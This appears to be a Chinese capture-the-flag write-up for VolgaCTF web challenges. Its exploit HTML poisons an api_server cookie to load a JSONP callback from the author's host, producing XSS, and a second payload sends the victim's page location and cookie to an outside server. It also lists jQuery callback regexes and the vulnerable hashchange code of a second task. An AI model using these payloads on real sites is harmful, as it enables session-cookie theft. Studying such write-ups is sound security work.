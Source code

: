 通过上面代码 可分析得在path有上面数组中的任意一个，将传第guid参数给getUser，那我们只要给guid一个?就可以了

最终exp

```html
<html>
<script>
    document.cookie = "api_server=exploit.lihuaiqiu.top\x77; domain=volgactf-task.ru;";
    window.location = 'https://volgactf-task.ru/report.php?guid=?'
</script>
</html>
```

在https://exploit.lihuaiqiu.top放上构造好的xss语句

```javascript
({"test":window.location='vps'+document.location});


```

自己vps监听下即可收到cookie

![Gl8ggJ.png](https://s1.ax1x.com/2020/03/31/Gl8ggJ.png)

当然还有另一种更有趣的回调操作

俄罗斯带哥找到了回溯的正则表达，膜，如下：

```
>  1.7.2 /(=)\?(?=&|$)|\?\?/
<= 1.7.2 /(\=)\?(&|$)|\?\?/i
<= 1.5.1 /(\=)\?(&|$)|()\?\?()/i
<= 1.4.4 /\=\?(&|$)/
<= 1.4.2 /=\?(&|$)/
<= 1.2.1 /=(\?|%3F)/g
<  1.2   not supported
```

所以我们完全可以不用考虑guid的传值，直接进行回调，并且??后面是可以接受任意其他字符的，如下：

![GldVl8.png](https://s1.ax1x.com/2020/04/01/GldVl8.png)

都可成功回调

### VolgaCTF Archive

蛮有趣的一道题

主要代码如下

```html
<script src="./js/pages.js"></script>
<script>
  $(window).on('hashchange', function(e) {
    volgactf.activePage.location=location.hash.slice(1);
    if(volgactf.pages[volgactf.activePage.location]) {
      $('#page').attr('src',volgactf.pages[volgactf.activePage.location]);
      $('.active').removeClass('active');
      $('.nav-item > a:contains('+volgactf.activePage.location+')').addClass('active');
    }
  });
  $(document).ready(function() {
    if(location.hash.slice(1) != '2019') {
      $(window).trigger('hashchange');
    }
  });
</script>
```
